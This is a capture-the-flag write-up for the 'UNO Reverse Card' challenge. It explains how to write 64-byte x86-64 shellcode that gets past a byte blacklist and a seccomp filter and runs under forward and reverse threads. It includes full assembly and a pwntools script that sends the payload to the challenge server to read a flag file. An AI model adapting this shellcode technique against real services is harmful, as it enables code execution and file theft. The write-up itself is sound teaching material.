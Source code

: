 # UNO Reverse Card (Misc 300)
We've done it! We found an open service that will run code we give it! It looks like the server is multithreaded though... Files: uno. Listening on challenge.acictf.com:20109
- The flag is in a file named "flag".
- Shellcode doesn't always need to spawn a shell.

# Analysis
This challenge is all about writing shellcode, shellcode that specifically fits into the parameters this binary gave us. I spent a little time taking notes on what I was and was not allowed to do in the binary, and what parameters there were. (just because they're in the list below doesn't mean I figured them out right away!)

1. Specific shellcode bytes are blacklisted: 0xc2, 0xc3, 0xca, 0xcb, 0x66, 0x6c, 0x61, and 0x67. Of those, most notable, I cannot use the letters in the word flag, and, I can't use a return.

2. `seccomp` is enabled, and only allows certain syscalls. Specifically, read, write, open, close, exit, and a few others are allowed, all else are blocked.

3. There are two threads, one runs the shellcode forwards, the other runs it in reverse.

4. In order to properly receive output, both threads _must_ return (an exit does not quite achieve this).

5. Before running the shellcode, _all_ file descriptors are closed -- including standard in, standard out, and standard error.

6. Least of all, we only have 64 bytes to fit in our shellcode.

To gloss over a sizable period of testing, I discovered the additional three helpful properties:
1. Since our code is called from a register `call rax`, we know the address of the shellcode is in rax when we begin execution.
2. Similar to the above, when our shellcode executes, we also know that the return address is in `rsp`. Which will assist us in returning properly.
3. The program output was the shellcode provided, and was read from memory after execution.

# Approach
So, my approach to this was to perform two syscalls. One would open the file `flag`. The second would read in the contents, and put it into the location of the shellcode on the stack, which would allow it to be passed back when the results were read and written to the results temp file.

Since I couldn't use the letters in the word `flag`, I changed them all by one and used an increment and a decrement to change them back when executing. (since these opcodes are only one byte long).

Finally, I used the address in `rsp` to jump back to where the execution had finished, so that the two threads would return properly. (For the reverse solution, I simply sent the `jmp [rsp]` in reverse).


# Solution
```nasm
section .text
  global _start

_start:
  push rsp
  push rax
  xor rax,rax
  xor rsi,rsi
  mov al,0x60
  inc al
  mov ah,0x68
  dec ah
  shl rax,16
  mov ah,0x6b
  inc ah
  mov al,0x65
  inc al
  push rax
  xor rax,rax
  mov rdi,rsp
  mov al, 2
  syscall
  pop rsi
  mov rdi,rax
  xor rax,rax
  xor rsi,rsi
  pop rsi
  xor rdx,rdx
  mov dl,0x30
  syscall
  pop rsp
  jmp [rsp]
```

```python
from pwn import *

context.log_level = 'debug'

shell = "\x54\x50\x48\x31\xc0\x48\x31\xf6\xb0\x60\xfe\xc0\xb4\x68\xfe\xcc\x48\xc1\xe0\x10\xb4\x6b\xfe\xc4\xb0\x65\xfe\xc0\x50\x48\x31\xc0\x48\x89\xe7\xb0\x02\x0f\x05\x5e\x48\x89\xc7\x48\x31\xc0\x48\x31\xf6\x5e\x48\x31\xd2\xb2\x30\x0f\x05\x5c\xff\x24\x24"


shell = shell + '\x90'*(0x40-len(shell)-3)+'\x24\x24\xff'

p = remote("challenge.acictf.com",20109)
#p = process('./uno')

raw_input()
p.send(shell)

p.interactive()
```
